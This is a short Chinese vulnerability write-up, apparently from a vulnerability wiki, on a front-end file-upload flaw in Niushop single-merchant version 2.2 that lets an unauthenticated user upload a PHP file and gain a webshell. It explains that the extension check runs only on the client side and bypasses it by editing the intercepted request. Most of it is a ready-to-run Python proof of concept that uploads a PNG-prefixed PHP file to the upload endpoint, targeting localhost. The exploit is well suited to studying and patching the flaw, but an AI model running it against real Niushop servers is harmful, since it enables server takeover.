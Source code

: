 Niushop 单商户 2.2 前台getshell
===============================

一、漏洞简介
------------

二、漏洞影响
------------

Version：单商户 2.2

三、复现过程
------------

![](/Users/aresx/Documents/VulWiki/.resource/Niushop单商户2.2前台getshell/media/rId24.jpg)

上传图片只做了前端校验，抓包改后缀即可绕过。

对文件内容做了检查，文件大小不能过大或过小，合成马最好放到中间。

请求包截图，删除不必要的参数仍旧能够上传。

![](/Users/aresx/Documents/VulWiki/.resource/Niushop单商户2.2前台getshell/media/rId25.jpg)

所以导致**前台getshell**

### poc

    import requests

    session = requests.Session()

    paramsGet = {"s":"/wap/upload/photoalbumupload"}
    paramsPost = {"file_path":"upload/goods/","album_id":"30","type":"1,2,3,4"}
    paramsMultipart = [('file_upload', ('themin.php', "\x89PNG\r\n\x1a\n\x00\x00\x00\rIHDR\x00\x00\x00\x01\x00\x00\x00\x01\x08\x06\x00\x00\x00\x1f\x15\xc4\x89\x00\x00\x00\x0bIDAT\x08\x99c\xf8\x0f\x04\x00\x09\xfb\x03\xfd\xe3U\xf2\x9c\x00\x00\x00\x00IEND\xaeB`\x82<? php phpinfo(); ?>", 'application/octet-stream'))]
    headers = {"Accept":"application/json, text/javascript, */*; q=0.01","X-Requested-With":"XMLHttpRequest","User-Agent":"Mozilla/5.0 (Android 9.0; Mobile; rv:61.0) Gecko/61.0 Firefox/61.0","Referer":"http://127.0.0.1/index.php?s=/admin/goods/addgoods","Connection":"close","Accept-Language":"en","Accept-Encoding":"gzip, deflate"}
    cookies = {"action":"finish"}
    response = session.post("http://127.0.0.1/index.php", data=paramsPost, files=paramsMultipart, params=paramsGet, headers=headers, cookies=cookies)

    print("Status code:   %i" % response.status_code)
    print("Response body: %s" % response.content)

参考链接
--------

> https://y4er.com/post/niushop-getshell/
